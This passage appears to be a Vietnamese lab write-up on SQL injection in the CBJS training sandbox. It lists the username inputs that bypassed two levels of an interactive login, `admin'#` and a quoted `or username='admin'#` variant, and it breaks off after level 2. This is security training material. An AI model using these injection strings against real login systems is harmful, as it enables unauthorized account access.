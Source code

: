 ## Khai thác SQL injection trên lab CBJS

### Sandbox

#### Interactive SQL Login (level 1)

Em nhập username là `admin'#` đã đăng nhập thành công:

![sandbox-login-1](images/lab-cbjs/sandbox/sandbox-login-1.png)

#### Interactive SQL Login (level 2)

Em nhập username là `") or username='admin'#` đã đăng nhập thành công:
